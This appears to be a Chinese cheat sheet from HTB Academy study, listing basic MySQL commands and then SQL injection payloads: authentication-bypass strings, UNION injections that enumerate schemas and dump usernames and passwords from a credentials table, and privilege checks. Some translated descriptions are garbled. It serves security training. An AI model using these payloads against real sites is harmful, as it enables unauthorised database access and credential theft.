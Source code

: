

## 常规软件的使用

### mysql

>from HTB-academy

|命令 | 描述|
|-|-|
常规
mysql -u root -h docker.hackthebox.eu -P 3306 -p|	登录MySQL数据库
SHOW DATABASES	|列出可用数据库
USE users	|切换到数据库
CREATE TABLE logins (id INT, ...)|	添加新表
SHOW TABLES|	列出当前数据库中的可用表
DESCRIBE logins	|显示表属性和列
INSERT INTO table_name VALUES (value_1,..)|	向表中添加值
INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)	|向表中的特定列添加值
UPDATE table_name SET column1=newvalue1, ... WHERE <condition>	|更新表值
列	
SELECT * FROM table_name	|显示表中的所有列
SELECT column1, column2 FROM table_name	|显示表中的特定列
DROP TABLE logins	|删除表
ALTER TABLE logins ADD newColumn INT	|添加新列
ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn|	重命名列
ALTER TABLE logins MODIFY oldColumn DATE	|更改列数据类型
ALTER TABLE logins DROP oldColumn|	删除列
输出	
SELECT * FROM logins ORDER BY column_1	|按列排序
SELECT * FROM logins ORDER BY column_1 DESC	|按列降序排序
SELECT * FROM logins ORDER BY column_1 DESC, id ASC	|按两列排序
SELECT * FROM logins LIMIT 2	|仅显示前两个结果
SELECT * FROM logins LIMIT 1, 2	|仅显示从索引 2 开始的前两个结果
SELECT * FROM table_name WHERE <condition>	|列出满足条件的结果
SELECT * FROM logins WHERE username LIKE 'admin%'	|列出名称与给定字符串相似的结果

SQL 注入
|有效载荷	|描述|
|-|-|
身份验证旁路	
admin' or '1'='1	|基本身份验证旁路
admin')-- -	|基本身份验证旁路 带注释
身份验证绕过有效负载	
联合注射	
' order by 1-- -	v检测列数order by
cn' UNION select 1,2,3-- -	|使用联合注入检测列数
cn' UNION select 1,@@version,3,4-- -	|基本联合注射
UNION select username, 2, 3, 4 from passwords-- -	4 |根色谱柱的活接注入
数据库枚举	
SELECT @@version	|指纹MySQL与查询输出
SELECT SLEEP(5)	|指纹MySQL，无输出
cn' UNION select 1,database(),2,3-- -	|当前数据库名称
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -	|列出所有数据库
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -	|列出特定数据库中的所有表
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -	|列出特定表中的所有列
cn' UNION select 1, username, password, 4 from dev.credentials-- -	|从另一个数据库中的表转储数据
特权	
cn' UNION SELECT 1, user(), 3, 4-- -	|查找当前用户
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -	|查找用户是否具有管理员权限